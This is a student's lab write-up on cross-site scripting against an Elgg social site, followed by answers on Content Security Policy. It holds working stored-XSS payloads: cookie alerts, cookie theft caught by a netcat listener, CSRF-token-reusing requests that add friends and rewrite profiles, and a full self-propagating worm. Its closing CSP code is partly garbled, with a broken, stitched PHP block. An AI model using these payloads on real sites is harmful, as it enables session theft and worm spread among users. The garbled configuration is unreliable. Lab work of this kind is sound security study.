# Task 1:Posting a Malicious Message to Display an Alert Window

Including a malicous script in the message field


We will include the `<script>alerat('hi')</script>` in Alice's brief description so that when user loads Alice's profile, the script will be executed


As we can see that the script that we included in the profile gets successfully executed when we visit Alice's profile

# Task 2: Posting a Malicious Message to Display Cookies

To display the cookie we add the script `<script>alert(document.cookie);</script>` 


As we can see that the `elgg` cookie is successfully alerted

# Task 3: Stealing Cookies from the Victim’s Machine

We will first start the netcat program to listen for incoming request

Then we will embed the script in Alice's profile
```javascript
<script>document.write(’’);
</script>
```

We will see the following output in the netcat

```
seed@weihong-System-Product-Name:~/Desktop/networksecurtiy_lab/xss$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.9.0.5 45548
GET /?c=Elgg=u9qemi36nq45d2dc8qvo3ivrot HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: curl/7.68.0
Accept: */*
```


# Task 4: Becoming the Victim’s Friend

We will put the following code in samy's about me section as HTML
```javascript
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token; 
  //Construct the HTTP request to add Samy as a friend.
  var sendurl="/action/friends/add?friend=59"+ts+token;

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>

```

We will then see that the attack is successful on the profile page, a request is made to add samy as friend




## Question1:
The purpose of the `ts` and the `token` variable is meant to passed with the `GET` request so that this require can by pass the CSRF check
## Question2:

We will not be able to execute the attack because it will sanitized the input and not let it execute by the browser


# Task 5: Modifying the Victim’s Profile

We can add the following code to Alice's profile's about me section as HTML
```javascript
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the content of your url.
  var content= "briefdescription=Samy is the best"+guid+ts+token; 
  var samyGuid=59; 
  var sendurl="/action/profile/edit" 
  if(elgg.session.user.guid!=samyGuid) 
  {
  //Create and send Ajax request to modify profile
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type",
  "application/x-www-form-urlencoded");
  Ajax.send(content);
  }
}
</script>
```

When we use Bob to visit samy's profile page, we can tell that it made a post edit request using bob'guid to change the `briefdescription` to `samy is the best`


## result
We can see that bob's profile is indeed changed to `samy is the best`


## Question3
This line is to prevent samy's about me page being changed when samy visit his own profile and render the attack useless.

# Task 6: Writing a self-propagating XSS Worm

Add the follow code to samy's profile
```javascript
<script id="worm">
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
  var jsCode = document.getElementById("worm").innerHTML; 
  var tailTag = "</" + "script>";
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  window.onload = function(){
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the content of your url.
    var content= "description="+wormCode+guid+ts+token; 
    var sendurl="/action/profile/edit" 
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");
    Ajax.send(content);
  }
</script>
```

When boby visits samy's profile, we can see that a edit profile request is made without bob's notice and change bob's description to the script

We can then go to boby's profile and see that his profile about me section is changed to the exact code above


# Task 7: Defeating XSS Attacks Using CSP

## Question 1

### www.example32a.com

From the image we can tell that all the fields are showing `OK`
Which means that there isnt any CSP implemented in the current website and all of the javascript is executed, regardless of whether is it from the same source or not


### www.example32b.com


From the image we can tell that only area 4 and area 6 is displaying `OK` and the rest of the area's code is not executed
This is because in the CSP policy set in the apache configuration
```

<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \
             default-src 'self'; \
             script-src 'self' *.example70.com \
           "
</VirtualHost>
```
We can see that only script from `self` and `example70.com` is allowed to be executed. area 4 executes a script that is from the same domain and area 6 executes a script from `example70.com` while the rest of the script are blocked since they are not from a trusted source


### www.example32b.com


From the image we can tell that `area 1,4 and 6` are displaying `OK`
From the apache configuration
```
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32c.com
    DirectoryIndex phpindex.php
</VirtualHost>
```
It is including a php file with this webpage and this php file sets the CSP policy as follows
```php
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' *.example70.com".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>
```
It is including the same webpage `index.html` and setting the CSP policy to allow scripts from `self` and `example70.com` and with a `nounce-111-111-111` which is the part in area 1

## Question2

After clicking on each of the web page's button, only `wwww.example32a.com` alerted but the rest of the web pages did not. This is because on the button click, it executes a javascript to call a alert window, only example32a did not specify any CSP policy and hence the execution is allowed, whereas for the other two websites, there are some CSP policy specified that does not allow unknown javascript to be executed

## Question3

To allow area 5 and 6's script to be executed, we will need to allow script from `example60.com` and `example70.com`
```
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \
             default-src 'self'; \
             script-src *.example60.com *.example70.com \
           "
</VirtualHost>
```

### result

We can tell that we have successfully modified the script that is allowed to be executed to area 5 and area 6

## Question 4

we want to allow every script other than a script without a nounce, to do that, we have to include script from self and `example60.com` and `example70.com` and individually added the script's nounce manually
```php
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' *.example60.com *.example70.com";
  header($cspheader);
?>

<?php include ";
  header($cspheader);
?>

<?php include ' '*.example70.com".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>

```

### result


# Question 5
CSP allows a website to define a whitelist of sources from which content can be loaded. This restricts the browser from executing JavaScript, CSS, or loading resources (like images, fonts, etc.) from unauthorized sources. If an attacker injects malicious scripts, CSP can prevent them from being executed if they are not from a whitelisted source.

We can whitelist scripts from certain trusted domains by including them in the header, we can also allow certain inline scripts that we trust to be executed through the use of nounce

